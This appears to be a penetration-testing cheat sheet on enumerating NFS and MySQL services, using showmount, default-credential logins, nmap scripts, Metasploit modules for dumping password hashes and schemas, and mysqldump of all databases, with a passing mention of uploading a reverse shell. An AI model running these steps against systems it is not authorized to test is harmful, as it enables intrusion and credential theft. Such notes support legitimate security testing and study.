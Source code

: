 # 2049-NFS 

-   Network file system This is a service used so that people can access certain parts of a remote filesystem.
-   See what the filesystem is sharing    
	-   showmount -e 192.168.1.109
-   mount the filesystem to your machine
	-   mount 192.168.1.109:/ /tmp/NFS
	-   mount -t 192.168.1.109:/ /tmp/NFS
---
# 3306-MySQL 

**Enumeration**

-   Always test root:root credential
	-   `mysql --host=192.168.1.101 -u root -p`
	-   `mysql -h 192.168.3.212 -u wpmaster@localhost -p`
	-   `mysql -h <Hostname> -u root@localhost`
	-   `mysql -h <Hostname> -u ""@localhost`
-   `telnet 192.168.0.101 3306`
-   MySQL server configuration file is my.cnf or /etc/mysql
-   Nmap enumeration
	-   `nmap -n -v -sV -Pn -p 3306 –script=mysql-info,mysql-audit,mysql-enum,mysql-databases,mysql-dump-hashes,mysql-emptypassword,mysql-users,mysql-query,mysql-variables,mysql-vuln-cve2012-2122 IP`
-   Finding passwords to mysql
-   You might gain access to a shell by uploading a reverse-shell. And then you need to escalate your privilege.
-   Look into the database and see what users and passwords that are available.
-   `/var/www/html/configuration.php`
-   Running SQL queries using MS without Login into Mysql
	-   `use auxiliary/admin/mysql/mysql_sql`
	-   `set rhosts 192.162.1.108`
	-   `set username root`
	-   `set password 123`
	-  `set sql show databases`
	-   `exploit`
-   Extract Mysql-Schemadump Information
	-   `use auxiliary/scanner/mysql/mysql_schemadump`
	-   `set rhosts 192.168.1.108`
	-   `set username root`
	-   `set password 123`
	-   `exploit`
-   Extracting Login from Mysql-server
	-   `use auxiliary/scanner/mysql/mysql_hashdump`
	-   `set rhosts 192.168.1.108`
	-   `set username root`
	-   `set password 123`
	-   `exploit`
-   Enumerate files and directories
	-   `use auxiliary/scanner/mysql/mysql_file_enum`
	-   `set rhosts 192.168.1.108`
	-   `set username root`
	-   `set password 123`
	-   `set file_list /root/dir.txt`
	-   `exploit`
-   Getting all the information from inside the database
	-   `mysqldump -u admin -p admin --all-databases --skip-lock-tables`
-   Configuration Files
	-   windows
	-   config.ini
	-   my.ini